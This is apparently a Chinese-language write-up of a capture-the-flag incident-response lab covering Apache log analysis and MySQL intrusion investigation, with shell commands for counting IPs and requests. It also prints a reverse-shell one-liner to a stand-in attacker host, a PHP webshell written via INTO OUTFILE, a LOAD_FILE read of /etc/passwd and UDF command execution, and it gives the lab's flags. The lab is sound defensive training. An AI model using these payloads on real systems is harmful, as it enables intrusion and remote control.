# 0x01前言

继续开始玄机第二章的学习

感谢师傅的wp，讲的真的很详细

[玄机——第二章 日志分析-apache日志分析 wp_第二章日志分析-apache日志分析-CSDN博客](https://blog.csdn.net/administratorlws/article/details/139574366?ops_request_misc=%7B%22request%5Fid%22%3A%22b99b24403d7f7572af4ea5e29fd9f779%22%2C%22scm%22%3A%2220140713.130102334.pc%5Fblog.%22%7D&request_id=b99b24403d7f7572af4ea5e29fd9f779&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-5-139574366-null-null.nonecase&utm_term=第一章&spm=1018.2226.3001.4450)

[玄机——第二章 日志分析-apache日志分析 wp_第二章日志分析-apache日志分析-CSDN博客](https://blog.csdn.net/administratorlws/article/details/139574366?ops_request_misc=%7B%22request%5Fid%22%3A%22b99b24403d7f7572af4ea5e29fd9f779%22%2C%22scm%22%3A%2220140713.130102334.pc%5Fblog.%22%7D&request_id=b99b24403d7f7572af4ea5e29fd9f779&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-5-139574366-null-null.nonecase&utm_term=第一章&spm=1018.2226.3001.4450)

[玄机——第二章日志分析-redis应急响应 wp-CSDN博客](https://blog.csdn.net/administratorlws/article/details/140024637?ops_request_misc=%7B%22request%5Fid%22%3A%22b99b24403d7f7572af4ea5e29fd9f779%22%2C%22scm%22%3A%2220140713.130102334.pc%5Fblog.%22%7D&request_id=b99b24403d7f7572af4ea5e29fd9f779&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-11-140024637-null-null.nonecase&utm_term=第一章&spm=1018.2226.3001.4450)

# 0x01正文

## 第二章日志分析-apache日志分析

### **什么是apache日志分析？**

日志分析是监控和优化网站性能、安全性和用户体验的重要手段。Apache日志分析是其中的一个重要组成部分，因为Apache是目前最流行的Web服务器之一。Apache日志记录了服务器上的各种活动，包括访问请求、错误信息、用户行为等。通过分析这些日志，可以获取有价值的信息，帮助网站管理员做出更好的决策。

#### Apache日志分析

Apache日志分析是专门针对Apache HTTP服务器生成的日志文件进行分析。Apache服务器主要生成两种类型的日志文件：

- 成功日志（access log）：


记录了所有对Web服务器的请求，包括客户端IP地址、请求时间、请求方式、请求资源、响应状态码、数据传输量等。

- 错误日志（error log）：

记录了服务器在运行过程中遇到的错误和警告信息，包括启动和停止时的信息。

#### 常见日志文件位置

- Apache日志

访问日志：默认位置通常是/var/log/apache2/access.log.1（Debian/Ubuntu）或/var/log/httpd/access_log.1（CentOS/RHEL）。
错误日志：默认位置通常是/var/log/apache2/error.log.1（Debian/Ubuntu）或/var/log/httpd/error_log.1（CentOS/RHEL）。

- SSH日志


身份验证日志：通常位于/var/log/auth.log（Debian/Ubuntu）或/var/log/secure（CentOS/RHEL）。

- 系统日志

系统日志：通常位于/var/log/syslog（Debian/Ubuntu）或/var/log/messages（CentOS/RHEL）。

### 问题1:提交当天访问次数最多的IP，即黑客IP

首先我们要找到的是对应的日志文件，因为是Apache的日志分析，所以对应的Apache的目录就是/var/log/apache2/

#### 解题

因为是Apache的日志分析，所以我们先进入目录/var/log/apache2/

```
cd /var/log/apache2/
```

然后我们用ls-l看一下路径下文件的基本信息


这里可以看到access.log和error.log的文件是空文件

我们看一下access.log.1日志文件，发现内容特别多，我先把他传到物理机里

```
scp root@43.192.115.135:/var/log/apache2/access.log.1 物理机路径
```

然后用notepad打开



我们先简单看一下，开头的话黑客估计是在访问页面的资源，而后黑客对目录进行了扫描操作，出现大量404



或者在靶机里执行命令去检索

```
cut -d- -f 1 access.log.1|uniq -c | sort -rn | head -20
```

命令解释:

- `ut`：这是一个命令行工具，用于从每一行中提取特定的部分。
- `-d-`：指定字段的分隔符是`-`（一个连字符）。
- `-f 1`：指定要提取第一个字段（即连字符前的部分）。
- `access.log.1`：输入文件，假设这是Apache访问日志的文件名。
- **`uniq -c`**:
  - `uniq` 用于从输入中删除重复的行。
  - `-c` 选项会在每行前加上一个计数，表示该行在输入中出现的次数。
  - 注意，`uniq` 通常需要输入是已排序的，以便其有效地统计重复行。
- **`sort -rn`**:
  - `sort` 用于对输入行进行排序。
  - `-r` 表示按递减顺序排序（reverse）。
  - `-n` 表示按数值进行排序（numeric）。
  - 这部分的作用是按照出现次数对 `uniq` 的输出进行从大到小的排序。
- **`head -20`**:
  - `head` 用于输出文件的开头部分。
  - `-20` 指定输出前 20 行。
  - 结果将是出现次数最多的前 20 个字段及其计数。



或者也可以用之前的命令

```
cat access.log.1 | awk '{print $1}' | uniq -c | sort -nr | more
```

第一列就是访问的次数，可见第一个ip地址就是访问最多的黑客ip了

```
flag{192.168.200.2}
```

插入一个知识点就是关于cut和cat命令的区别

##### cut和cat命令

cat（concatenate）用于连接文件并打印到标准输出。通常用于查看文件的内容、合并文件和创建文件。

cut用于从文件的每一行中提取指定的部分。通常用于处理列格式数据，比如从CSV文件中提取某些列。

两者区别；

- 用途不同：


cat主要用于连接和显示文件内容。

cut主要用于从文件中提取特定的列或字段。

- 功能不同：

cat可以将多个文件内容合并输出到一个文件或标准输出。

cut可以根据指定的字符位置、字节位置或分隔符提取部分内容。

- 常见用法不同：

cat常用于快速查看文件内容或合并文件。
cut常用于处理表格数据、日志文件等，需要提取特定列的数据。

### 问题2:黑客使用的浏览器指纹是什么

#### 什么是浏览器指纹

浏览器指纹（Browser Fingerprinting）是指通过收集和分析浏览器和设备的特征信息，创建一个唯一的标识符，从而识别或跟踪用户。这种技术不仅仅依赖于常规的Cookie，还利用浏览器和设备的多种属性来进行识别。

#### 常见的指纹

浏览器类型和版本：使用的浏览器及其版本。
操作系统：设备所运行的操作系统及其版本。
时区：设备的时区设置。
语言和区域设置：浏览器和操作系统的语言设置。
屏幕分辨率和色深：设备屏幕的分辨率和颜色深度。
插件和扩展：已安装的浏览器插件和扩展。
字体：系统上安装的字体。
HTTP头：浏览器在请求时发送的HTTP头信息，包括User-Agent、Accept、Accept-Language等。
Canvas指纹：使用HTML5 Canvas元素绘制图形并分析生成的图像数据，以获取独特的图形渲染特征。
WebGL指纹：利用WebGL的特性，通过绘制3D图形来获取设备的渲染特性。
设备性能特征：CPU、GPU、内存等硬件信息。

#### 使用浏览器指纹的目的

追踪用户活动：在用户禁用Cookie或使用隐私保护工具时，仍然能够跟踪用户的在线活动。
识别并避开安全系统：通过识别用户的浏览器指纹，可以绕过某些安全系统或反欺诈措施，假装成合法用户进行恶意活动。
目标攻击：了解目标用户的设备和浏览器特性，从而制定更有针对性的攻击策略，比如利用特定浏览器或操作系统的已知漏洞进行攻击。

#### 解题

因为我们刚刚知道了黑客的ip，所以直接查看ip的信息就行了

`cat access.log.1 |grep 192.168.200.2 |more`

为什么这个命令能帮我们拿到指纹信息?

- 它可以帮助你找到与特定 IP 地址相关的请求信息。这些请求通常包含在网络服务器的访问日志中，每个请求可能包含用户代理字符串（User-Agent），其中包含浏览器指纹信息。



```
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
```

可以看到，这里有很多一样的，直接md5加密交flag就行

```
flag{2d6330f380f44ac20f3a02eed0958f66}
```

### 问题3:查看index.php页面被访问的次数

查看页面访问情况，也是可以用之前的命令的

#### 解题流程:

```
cat access.log.1| grep -a 'index.php' 
```

这将输出所有包含 index.php 的访问记录。

使用 wc -l 命令统计行数
wc -l 命令用于统计行数，即访问次数。

```
cat access.log.1| grep -a 'index.php'  | wc -l
```

这个命令会输出包含 index.php 的访问记录的总行数，即 index.php 被访问的次数。
所以我们的命令:

```
cat access.log.1| grep -a '/index.php' | wc -l
```

但是值得注意的是，当我们使用cat，一定得是/index.php文件表示当前目录下的index.php，因为这个文件很普遍所以我们还是严谨一点比较好


可以看到是27次，直接交flag

```
flag{27}
```

但是不对啊，我们再看看包含index.php的记录有哪些



发现两个并非访问/index.php的记录，那最后就是25次

```
flag{25}
```

这次对了

### 问题4：查看黑客IP访问了多少次

因为我们已经知道了黑客ip，所以直接下手就行

#### 解题

##### 第一种命令

```
cat access.log.1 | grep “192.168.200.2 - -” | wc -l
```

- grep "192.168.200.2 - -":

从 cat 命令输出的内容中通过grep筛选出包含字符串 192.168.200.2 - - 的行。这通常意味着你在查找某个特定 IP 地址的访问记录。

- wc -l:

统计通过 grep 筛选出的行数，即包含 192.168.200.2 - - 的行数。

那为什么这里是--呢?

在 Apache 访问日志中，格式通常是标准的组合日志格式（Combined Log Format），包含了客户端 IP 地址、客户端身份验证信息、用户 ID、请求时间、请求行、状态码、响应大小、引用来源和用户代理等信息。以下是一个典型的日志条目：

例如；

192.168.200.2 - - [03/Aug/2023:08:00:00 +0000] "GET /index.php HTTP/1.1" 200 1234 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64)"
在这个日志条目中，`192.168.200.2` 是客户端 IP 地址，`- -` 是占位符，表示客户端身份验证信息（客户端身份验证信息为空时用 `-` 表示）。

当然这里也可以用grep -w "192.168.200.2" access.log.1 |wc -l，因为-w参数可以进行全匹配

##### 第二种命令

```
cat access.log.1 | grep "192.168.200.2" | cut -d' ' -f1 | sort | uniq -c
```

作用:这个命令 cat access.log.1 | grep "192.168.200.2" | cut -d' ' -f1 | sort | uniq -c 的作用是从 access.log.1 文件中筛选出指定 IP 地址的访问记录，并统计每个 IP 地址的出现次数。

- cut -d' ' -f1：


cut 命令用于从每行中提取指定的字段。

-d' ' 表示字段分隔符是空格。

-f1 表示提取第一个字段，即 IP 地址。

- sort：

sort 命令用于对输入内容进行排序。

这里它对提取出的 IP 地址进行排序。

- uniq -c：

uniq 命令用于去除重复的行。
-c 选项表示在输出中包含每个唯一行前出现的次数。
这里它统计每个唯一 IP 地址出现的次数。

#### 总结：

- 读取日志文件：


使用 cat 命令读取 access.log.1 的内容。

- 过滤特定 IP 的访问记录：

使用 grep "192.168.200.2" 筛选出包含指定 IP 地址的行。

- 提取 IP 地址：

使用 cut -d' ' -f1 提取每一行的第一个字段，即 IP 地址。

- 排序：

使用 sort 对提取出的 IP 地址进行排序，以便 uniq 能够正确统计连续出现的相同 IP 地址。

- 统计出现次数：

使用 uniq -c 统计每个唯一 IP 地址出现的次数，并在每个 IP 地址前显示其出现的次数。

##### 第三个命令

```
grep "192.168.200.2" access.log.1 | cut -d' ' -f1 | sort | uniq -c
```

- cut -d' ' -f1：


cut 命令用于从每行中提取指定的字段。

-d' ' 表示字段分隔符是空格。

-f1 表示提取第一个字段，即提取每行的第一个字段。

在典型的访问日志格式中，第一字段通常是 IP 地址，所以这一步提取出所有包含 IP 地址 192.168.200.2 的记录的 IP 地址部分。

- sort：

sort 命令用于对输入内容进行排序。

这里它对提取出的 IP 地址进行排序，以便 uniq 能够正确统计连续出现的相同 IP 地址。

排序是为了后续步骤中的去重和计数。

- uniq -c：

uniq 命令用于去除重复的行。

-c 选项表示在输出中包含每个唯一行前出现的次数。

这里它统计每个唯一 IP 地址出现的次数，并在每个 IP 地址前显示其出现的次数。

- 简单来说就是；

过滤：使用 grep 筛选包含指定 IP 地址 192.168.200.2 的日志记录。

提取字段：使用 cut 提取每行的第一个字段，即 IP 地址部分。

排序：使用 sort 对提取出的 IP 地址进行排序。

统计：使用 uniq -c 统计每个 IP 地址的出现次数。

- 区别

这两个命令的主要区别在于是否使用了 cat 命令，这个不用我多说了吧？：

1.grep "192.168.200.2" access.log.1 | cut -d' ' -f1 | sort | uniq -c：

直接使用 grep 从文件 access.log.1 中搜索包含 192.168.200.2 的行。
后续步骤提取、排序和统计。
2.cat access.log.1 | grep "192.168.200.2" | cut -d' ' -f1 | sort | uniq -c：

先使用 cat 命令读取整个文件 access.log.1，然后将内容通过管道传递给 grep 进行搜索。

后续步骤与上一个命令相同。

- 主要区别

使用 cat：第一条命令直接使用 grep 读取文件，避免了 cat 的额外步骤，更加简洁高效。
不使用 cat：第二条命令多了一步 cat，从功能上讲没有必要，因为 grep 可以直接读取文件内容。


最终就是6555次，提交flag就行

### 问题5：查看2023年8月03日8时这一个小时内有多少IP访问

这里的话是具体到时间段了；

首先我们得先把日期换成日志里的格式**2023年8月03日8时——03/Aug/2023:08:**

#### 解题

还是一样的三个命令

##### 第一种命令

```
cat access.log.1 | grep "03/Aug/2023:08:" | awk '{print $1}'| sort -nr| uniq -c|wc -l
```



##### 第二种命令

```
cat access.log.1 | grep "03/Aug/2023:08:" | awk '{print $1}'| sort -nr| uniq -c
```

这里细心的人就会发现了，哎，怎么这个和上面就少一个wc -l啊？

**区别在于；**（看需要加与不加）

- **不加 `wc -l`**：显示每个 IP 地址的访问次数。
- **加上 `wc -l`**：显示不同 IP 地址的总数量。

##### 第三种命令

```
grep “03/Aug/2023:08:” access.log.1 | awk ‘{print $1}’ | sort -nr | uniq -c | wc -l
```

命令其实都大差不差，主要的步骤就是

1. 从日志文件中筛选特定时间段的日志行。
2. 提取 IP 地址。
3. 对 IP 地址进行排序。
4. 统计每个 IP 地址的出现次数。
5. 计算不同 IP 地址的数量。

这里只写了一个命令的示范，剩下的就自己去实践了哈

## 第二章日志分析-mysql应急响应

### 什么是mysql

MySQL 是一种开源关系型数据库管理系统（RDBMS），通常用于存储和管理数据。以下是关于 MySQL 的一些关键点：

基本概念

- **关系型数据库管理系统**：
  - MySQL 使用表格来存储数据，这些表可以通过关系进行关联。关系型数据库的结构化查询语言（SQL）用于定义、查询、和管理数据。
- **开源软件**：
  - MySQL 是开源的，意味着它的源代码是公开的，用户可以自由使用、修改和分发。MySQL 也是 Oracle 公司的一部分。

### 什么是mysql应急响应

**MySQL应急响应是指在MySQL数据库遇到故障、入侵或其他紧急情况时，采取的一系列快速、有效的措施，以确保数据库的完整性、安全性和可用性，这里我们主要分析的是日志信息，里面记录黑客入侵的大部份信息。**

### 问题1：黑客第一次写入的shell

看到这个的话，很难不想到第一章里面的webshell查杀的内容，我们这里就不赘述了，需要的师傅可以直接去第一章中查看

#### 解题

我们先去/var/www/html里面的看看有没有吗，为什么呢

因为既然黑客要在mysql里写入shell，那么首先他一定是先拿下了网站，并上传了shell，第一次写入的shell，我们可以去web目录下查找一番

所以我们可以先在web目录里面收查一下



发现了一个.sh.php文件，我们cat看一下



从这个1 2 4能看出来是通过数据库注入写入的webshell, 注入点为表第三个字段
flag{ccfda79e-7aa1-4275-bc26-a6189eb9a20b}

### 问题2:黑客反弹shell的ip

##### 什么是反弹shell

反弹 Shell（Reverse Shell）是一种通过网络连接建立的 Shell 会话，通常用于远程控制计算机系统。在反弹 Shell 中，被攻击的机器主动向攻击者的机器发起连接，这与传统的“绑定 Shell”（Bind Shell）有区别，其中攻击者连接到目标机器上开放的端口。

##### 反弹shell的原理

反弹Shell（Reverse Shell）的原理是攻击者通过在目标系统上运行恶意代码，使得目标系统主动与攻击者的控制服务器建立连接，从而绕过防火墙和其他安全措施。

反弹Shell的工作原理

- 攻击者准备监听：攻击者在其控制的服务器上启动一个监听程序（通常是一个Netcat或类似工具），等待目标系统主动连接。


nc -lvp 4444

这里，-l表示监听模式，-v表示冗长输出，-p指定端口。

- 目标系统执行恶意代码：攻击者通过漏洞利用、社交工程等手段，在目标系统上执行恶意代码。这段代码会打开一个Shell，并尝试连接攻击者的服务器。


/bin/bash -i >& /dev/tcp/attacker_ip/4444 0>&1

这个命令的作用是通过TCP连接攻击者的IP地址和端口，并将输入和输出重定向到这个连接上。

- 建立连接：目标系统主动向攻击者的服务器发起连接请求。由于是目标系统主动连接，一般不会被防火墙阻拦。


- 攻击者获得Shell访问：一旦连接建立，攻击者就可以在其控制服务器上得到一个远程Shell，能够像在本地终端一样执行命令，控制目标系统。


如果要找出黑客反弹的shell，我们就得从日志中进行分析了

#### 基本步骤

- 检查日志文件：查看MySQL的日志文件，特别是查询日志和错误日志。这些日志可以提供关于执行的查询和任何异常情况的信息。

查询日志：记录所有的查询，包括成功和失败的查询。
错误日志：记录MySQL服务器的错误、警告和通知。
这些日志通常位于/var/log/mysql/目录下。

- 检查审计日志：如果启用了审计插件，可以查看审计日志。MySQL Enterprise Edition包含一个审计插件，可以记录所有SQL查询。


- 检查连接历史：检查MySQL中的连接历史，找出哪些IP地址连接过数据库。可以通过查询information_schema.processlist或performance_schema来获取连接信息。


- 检查特定的表和列：查找数据库中是否有存储和执行恶意命令的痕迹，例如system或exec等。


#### 解题

所以我们先进入/var/log/mysql/目录，然后看看里面都有什么文件，发现只有一个error.log,我们查看这个文件后慢慢分析可以得到

```
tmp/1.sh: line 1: --2023-08-01: command not found
/tmp/1.sh: line 2: Connecting: command not found
/tmp/1.sh: line 3: HTTP: command not found
/tmp/1.sh: line 4: Length:: command not found
/tmp/1.sh: line 5: Saving: command not found
/tmp/1.sh: line 7: 0K: command not found
/tmp/1.sh: line 9: syntax error near unexpected token `('
/tmp/1.sh: line 9: `2023-08-01 02:16:35 (5.01 MB/s) - '1.sh' saved [43/43]'
```

这段日志表明有人尝试在MySQL服务器上执行一个位于/tmp/1.sh的shell脚本，但是该脚本的内容并非有效的shell命令或脚本格式，而是看起来像HTTP响应或者是一个下载日志的内容。每行的错误信息，如command not found，指出脚本中的每一行都被解释器当作命令来尝试执行，但由于这些行实际上是HTTP响应的一部分（例如日期、状态信息、长度描述等），shell无法识别并执行它们，从而导致了一系列的错误。

发现日志中 /tmp/1.sh 脚本的执行错误，发现后面也是由这个文件引起的一系列报错信息，那这里我们就可以尝试定位这个文件，看看里面到底是什么为什么会引起那么多报错信息；
find / -name "1.sh"



发现在tmp目录也发现了这个文件，我们去看看

****

这是一条反弹shell的命令

命令解析

- bash -i：


以交互模式启动一个新的Bash Shell。-i参数表示交互式Shell，这样可以确保Shell会读取并执行启动文件，如.bashrc。

- & /dev/tcp/192.168.100.13/777：

使用Bash的特殊文件重定向语法，通过TCP连接到IP地址192.168.100.13和端口777。

& 表示将标准输出（stdout）和标准错误（stderr）都重定向到 /dev/tcp/192.168.100.13/777，这个特殊文件实际上是在通过TCP连接发送数据。

- 0>&1：

将标准输入（stdin）重定向到标准输出（stdout），这样可以将所有输入从TCP连接中读取并执行。

### 问题3：黑客提权文件的完整路径

在做这个题目之前，我们应该了解到**在 MySQL 提权攻击中，最常用的一些方法包括利用 `INTO OUTFILE` 写入文件、利用 `LOAD_FILE` 读取文件，以及利用 UDF（用户定义函数）执行系统命令。这些方法因其简单高效、攻击面广而被广泛采用。**

#### 三种mysql提权攻击

- 利用 INTO OUTFILE 写入文件


INTO OUTFILE 是 MySQL 提供的一个功能，允许将查询结果写入服务器上的文件。如果攻击者能成功利用这个功能，他们可以将恶意代码写入 Web 服务器目录，生成一个 Web Shell。

示例：

SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php';

这个命令将在 /var/www/html/ 目录下创建一个名为 shell.php 的文件，包含一个简单的 Web Shell，攻击者可以通过访问该文件执行任意系统命令。

- 利用 LOAD_FILE 读取文件


LOAD_FILE 是 MySQL 提供的另一个功能，允许读取服务器上的文件内容。攻击者可以利用这个功能读取敏感文件，如系统密码文件 /etc/passwd。

示例：

SELECT LOAD_FILE('/etc/passwd');

这个命令会返回 /etc/passwd 文件的内容，其中包含所有用户的信息。

- 利用 UDF 执行系统命令


UDF（用户定义函数）允许用户扩展 MySQL 的功能。如果攻击者可以将恶意的共享库上传到服务器，他们可以利用 UDF 执行任意系统命令。

示例步骤：

上传恶意共享库 lib_mysqludf_sys.so 到 MySQL 服务器的插件目录。

创建 UDF 函数：

​	CREATE FUNCTION sys_exec RETURNS INTEGER SONAME 'lib_mysqludf_sys.so';

使用 UDF 执行系统命令：

​	SELECT sys_exec('id > /tmp/output.txt');

这个命令将在 /tmp 目录下创建一个文件 output.txt，其中包含执行 id 命令的结果。

**常用方法总结**
INTO OUTFILE 写入文件：常用于创建 Web Shell 或写入恶意脚本。
LOAD_FILE 读取文件：常用于读取敏感文件，进行信息收集。
UDF 执行系统命令：常用于执行任意系统命令，获取更高权限。

#### 解题

那让我们来思考一下黑客进攻的流程，他做过反弹 shell 的操作，并且做过提权操作，既然是从数据库权限提权到主机用户权限，那肯定是通过数据库服务打过来的，既然黑客进行了提权，说明黑客肯定拿到了mysql账号和密码并且成功登录，那么我们可以猜想是否在web目录下有页面泄露账号密码

**那我们这里直接跟进到目录/var/www/html定位账号“root”看看我们能不能发现密码，也来验证一遍我们的猜想**

find ./ -name "*.php" | xargs grep "root"



k可以看到进行了mysql的账号密码连接

简单分析一下这段代码

- **localhost”**：数据库服务器地址，这里是本地主机。
- **“root”**：数据库用户名。
- **“334cc35b3c704593”**：数据库密码。
- **“cms”**：数据库名称。
- **“3306”**：数据库端口号。

然后我们也发现了是commom.php泄露的账号密码，我们就先连上数据库分析一下

```
mysql -uroot -p334cc35b3c704593
```

-u：用户
-p：密码

连进去后就简单看一下数据库的设置，这样可以更好的知道黑客到底有没有进行UDF提权

```
show global variables like '%secure%';
```



简单分析一下；

**`show global variables like '%secure%';` 是一条 MySQL 查询命令，用于显示与 “secure” 相关的全局变量及其当前设置。通过查看这些变量的配置，可以帮助我们了解 MySQL 服务器的安全性设置和限制。**

zhi行命令后可能会有以下类似的结果

```
+----------------------------+------------------------+
| Variable_name              | Value                  |
+----------------------------+------------------------+
| require_secure_transport   | OFF                    |
| secure_auth                | ON                     |
| secure_file_priv           | /var/lib/mysql-files/  |
+----------------------------+------------------------+
```

这种的话进行分析就是

**require_secure_transport: OFF**

这个设置决定是 MySQL 是否要求使用安全传输层（如 SSL/TLS）来保护客户端与服务器之间的通信。

**secure_auth: ON**

这个选项决定是否启用基于安全身份验证的 MySQL 客户端连接

**secure_file_priv: /var/lib/mysql-files/**

这个设置指定 MySQL 服务器可以执行文件操作（如 LOAD DATA INFILE 和 SELECT INTO OUTFILE）的目录。
/var/lib/mysql-files/ 指定了一个受限的文件路径，简单来说就是 MySQL 只能从这个目录中加载文件或将数据导出到该目录，防止服务器访问不必要的文件路径，确实是提高了安全性。

但是我们这secure_file_priv为空可能就是mysql没有对文件操作进行相应的限制，这会导致黑客可以利用UDF提权，因为他们可以任意的进行文件操作

我们来了解一下什么是UDF提权

#### **什么是 UDF 提权？**

